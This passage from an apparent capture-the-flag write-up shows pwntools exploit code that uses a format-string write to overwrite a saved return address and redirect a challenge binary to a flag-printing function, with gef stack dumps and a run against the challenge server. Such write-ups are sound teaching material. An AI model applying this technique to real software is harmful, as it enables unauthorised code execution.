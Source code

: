 ```py
    setup_buffer(p)

    p.sendline(b'1')
    p.sendline(b'a'*10)

    # here, I just want the last byte of vent
    num_chars = int(hex(elf.sym.vent)[-2:], 16)
    payload = f'%{num_chars}c%9$hhn'
    p.sendline(b'1')
    p.sendline(payload)

    p.sendline(b'1')
    p.sendline(b'pinkaaaa' + p64(rip))
```

(if you're confused about why I write to the start of $rip when I actually want
to control the last byte, do read up on little endian)

As a PoC, here's the stack before my write:

```
gef➤  telescope 0x007fffb9f9a340
0x007fffb9f9a340│+0x0000: 0x007fffb9f9a370  →  0x007fffb9f9a390  →  0x0000000000000001	← $rsp
0x007fffb9f9a348│+0x0008: 0x0000000231000000
0x007fffb9f9a350│+0x0010: 0x6100000a6b6e6970 ("pink\n"?)
0x007fffb9f9a358│+0x0018: 0x616161616161000a ("\n"?)
0x007fffb9f9a360│+0x0020: 0x00000000000a61 ("a\n"?)
0x007fffb9f9a368│+0x0028: 0x1bd98944c0702700
0x007fffb9f9a370│+0x0030: 0x007fffb9f9a390  →  0x0000000000000001	← $rbp
0x007fffb9f9a378│+0x0038: 0x0055ef72c6c4be  →  <main+131> mov eax, 0x0
0x007fffb9f9a380│+0x0040: 0x0000000000000000
0x007fffb9f9a388│+0x0048: 0x1bd98944c0702700
```

and after my write:
```
gef➤  telescope 0x007fffb9f9a340
0x007fffb9f9a340│+0x0000: 0x007fffb9f9a370  →  0x007fffb9f9a390  →  0x0000000000000001	← $rsp
0x007fffb9f9a348│+0x0008: 0x0000000231000000
0x007fffb9f9a350│+0x0010: 0x616161616b6e6970
0x007fffb9f9a358│+0x0018: 0x007fffb9f9a378  →  0x0055ef72c6c4d9  →  <vent+0> endbr64 
0x007fffb9f9a360│+0x0020: 0x0000000000000a ("\n"?)
0x007fffb9f9a368│+0x0028: 0x1bd98944c0702700
0x007fffb9f9a370│+0x0030: 0x007fffb9f9a390  →  0x0000000000000001	← $rbp
0x007fffb9f9a378│+0x0038: 0x0055ef72c6c4d9  →  <vent+0> endbr64 OVERWRITTEN!! :)
0x007fffb9f9a380│+0x0040: 0x0000000000000000
0x007fffb9f9a388│+0x0048: 0x1bd98944c0702700
```

Afterwards, I can just exit `vuln` to jump to `vent` and cat the flag. :)

```
[*] '/home/samuzora/ctf/writeups/sieberrsec-4.0/sus-machine/dist/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to de.irscybersec.ml on port 1337: Done
rip @ 0x7ffc3da999f8
  p.sendline(payload)
[*] Switching to interactive mode
pink
.

Menu:
1. Kill Crewmate
```